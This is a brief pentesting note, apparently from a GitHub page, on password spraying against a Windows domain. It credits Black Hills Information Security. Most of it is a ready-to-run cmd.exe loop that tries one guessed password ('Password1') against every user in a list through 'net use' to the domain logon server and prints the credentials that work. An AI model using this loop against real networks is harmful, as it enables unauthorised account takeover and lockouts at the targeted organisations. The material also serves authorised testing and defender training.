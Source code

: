- Password Spraying: It is a technique of trying one password across all the domain users. 

- No tool needed. One can perform password spraing using cmd.exe
  - net use %LOGONSERVER%\IPC$ /delete
  - set PASSWORD=Password1
  - FOR /F %n in (Documents\users.txt) DO @((net use %LOGONSERVER%\IPC$ /user:%USERDOMAIN%\%n %PASSWORD%
    1>NUL 2>&1 && echo. && echo [*] %n:%PASSWORD% && net use /delete %LOGONSERVER%\IPC$  > NUL) || < set /p =.)
    
    
   <b> Thanks to : Black Hills Information Security (https://www.blackhillsinfosec.com/) </b>
